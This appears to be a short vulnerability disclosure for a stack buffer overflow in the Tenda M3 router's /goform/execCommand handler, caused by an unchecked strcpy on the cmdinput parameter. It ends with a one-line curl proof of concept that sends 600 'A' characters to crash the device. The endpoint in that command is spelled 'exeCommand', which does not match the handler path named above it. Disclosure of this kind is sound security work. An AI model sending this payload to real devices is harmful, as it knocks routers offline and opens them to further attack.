

# Tenda M3 execCommand Buffer Overflow

## Description

The **formexecCommand** handler is vulnerable to buffer overflow due to the complete absence of user input sanitization on parameter **cmdinput** which can lead of corruption of data on the stack, hijacking of control flow, and DoS. The attack can be performed remotely.

## Details

*   **Vendor**: Tenda

*   **Product**: Tenda M3

*   **Firmware Version**: V1.0.0.13(4903)_CN&EN

*   **Firmware Download**: https://www.tendacn.com/material/show/104888

*   **Component**: `/goform/execCommand` (formexecCommand handler)

*   **Vulnerability Type**: Buffer Overflow (CWE-120) and Memory Corruption (CWE-119)

*   **CVE ID**: Not Assigned

*   **Reported by**: Charbel


## PoC

The vulnerability is in the `strcpy()` call with no bounds checking.



Send a POST request to the `/goform/execCommand` endpoint to trigger the buffer overflow

```
curl -X POST http://172.16.182.130/goform/exeCommand   -d "cmdinput=$(python3 -c 'print("A"*600)')"
```


